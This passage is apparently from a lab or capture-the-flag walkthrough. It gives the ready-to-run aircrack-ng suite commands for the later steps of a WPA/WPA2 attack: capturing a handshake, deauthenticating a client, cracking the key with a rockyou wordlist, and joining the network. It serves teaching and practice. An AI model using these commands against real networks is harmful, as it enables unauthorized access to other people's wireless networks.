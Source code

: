 ```bash
sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2
```

## 5. Perform a Deauthentication Attack
Force a client to disconnect and reconnect to the target network by performing a deauthentication attack:

```bash
sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
```
When the client reconnects, the handshake should be captured.

## 6. Crack WPA/WPA2 PSK
After capturing the handshake, attempt to crack it with a wordlist using aircrack-ng:

```bash
sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap
```
The program will test each password from the wordlist to match the captured handshake.

## 7. Join the Target Network
Once the key is cracked, generate a configuration file for connecting to the network:

```bash
wpa_passphrase MalwareM_AP 'ENTER PSK HERE' > config
```
Connect to the network with:

```bash
sudo wpa_supplicant -B -c config -i wlan2
```
